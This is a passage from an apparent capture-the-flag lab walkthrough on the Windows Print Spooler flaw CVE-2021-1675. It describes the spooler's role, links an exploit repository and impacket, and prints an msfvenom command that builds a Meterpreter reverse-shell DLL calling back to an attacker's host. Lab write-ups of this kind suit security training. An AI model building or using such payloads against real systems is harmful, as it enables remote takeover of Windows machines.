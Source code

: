 ![sevices](/assets/img/services.png)

By default, the Print spooler service is enabled on all Windows clients and servers, and it is used by Domain controllers
for `printer pruning` (the process of removing the printers that are not in use anymore on the network and have been added as objects to Active Directory).

## Exploitation

We need the [exploit](https://github.com/tryhackme/CVE-2021-1675) and [impacket](https://github.com/tryhackme/impacket)
to carry out this attack on our target machine.

Before we proceed, we need to create `2` directories on our attacker machine:

- `pn`: we will store the exploit and impacket in here.
- `share`: it will contain the malicious DLL that will be created with msfvenom.

### Steps

- The first step is to create the malicious DLL with `msfvenom`:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your-IP-address> LPORT=<port> -f dll -o ~/Desktop/share/malicious.dl
```
![msfvenom](/assets/img/msfvenom.png)
